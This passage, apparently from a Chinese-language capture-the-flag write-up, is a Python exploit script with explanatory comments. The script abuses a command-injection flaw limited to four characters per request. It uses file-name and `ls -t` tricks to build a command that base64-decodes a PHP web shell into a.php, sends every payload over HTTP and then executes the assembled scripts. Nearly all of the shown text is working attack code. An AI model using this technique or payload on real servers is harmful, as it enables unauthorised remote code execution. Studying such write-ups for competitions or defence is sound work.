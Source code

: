 ```python
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl
 
    '*>v',
    # 前文提到， * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  前面提到dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符
 
    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v
 
    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。前文也提过了，体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f
 
    # 续行分割     # echo PD89YCRfR0VUWzBdYDs=|base64    -d>a.php
    '>p',
    '>ph\\',
    '>a.\\',
    '>\>\\',
    '>-d\\',
    '>\\'+chr(9)+'\\',
    '>64\\',
    '>se\\',
    '>ba\\',
    '>\|\\',
    '>s=\\',
    '>YD\\',
    '>Bd\\',
    '>Wz\\',
    '>VU\\',
    '>R0\\',
    '>Rf\\',
    '>YC\\',
    '>89\\',
    '>PD\\',
    '>\ \\',
    '>ho\\',
    '>ec\\',
    'sh ' + pos2,
    'sh ' + pos0,
]
 
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print('[%d]' % s.status_code, s.url)
    sleep(0.1)
s = r.get(cmd+'sh '+pos0)
print('[%d]' % s.status_code, s.url)
print(s.text)
```
